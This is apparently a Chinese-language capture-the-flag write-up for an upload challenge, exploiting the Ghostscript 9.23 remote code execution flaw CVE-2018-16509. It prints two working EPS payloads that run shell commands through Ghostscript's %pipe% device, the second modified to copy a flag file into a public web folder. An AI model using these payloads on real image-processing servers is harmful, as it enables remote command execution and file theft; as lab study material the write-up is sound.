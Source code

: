 ## 結論

練習：CVE-2018-16509

(ghostscript-9.23 RCE)

## 想法

1. 看網站有的功能對看他的 source code

像是這題就是要去看上傳功能

2. 看一下網站的組成 (這題就是看 Dockerfile)

## 打開網站

是一個給你上傳的頁面

![image](./img/1.PNG)

## 漏洞

抓檔案下來，可以看到 Dockerfile 有 `ghostscript-9.23`

google 一下 `ghostscript-9.23 exploit`

會找到一個 github ：https://github.com/farisv/PIL-RCE-Ghostscript-CVE-2018-16509

所以就直接用這個漏洞即可

## 作法

因為程式碼是有提供的，所以如下圖，知道 FLAG 在 `/app/flag` ，印出來即可

![image](./img/11.PNG)

底下是 github 的 poc
```
%!PS-Adobe-3.0 EPSF-3.0
%%BoundingBox: -0 -0 100 100

userdict /setpagedevice undef
save
legal
{ null restore } stopped { pop } if
{ legal } stopped { pop } if
restore
mark /OutputFile (%pipe%touch /tmp/got_rce) currentdevice putdeviceprops
```

改一下

```
%!PS-Adobe-3.0 EPSF-3.0
%%BoundingBox: -0 -0 100 100

userdict /setpagedevice undef
save
legal
{ null restore } stopped { pop } if
{ legal } stopped { pop } if
restore
mark /OutputFile (%pipe% cat /app/flag >> /app/application/static/assets/flag) currentdevice putdeviceprops
```

## 參考

- [[HTB] petpet rcbee](https://1dayluo.github.io/post/htb-petpet-rcbee/)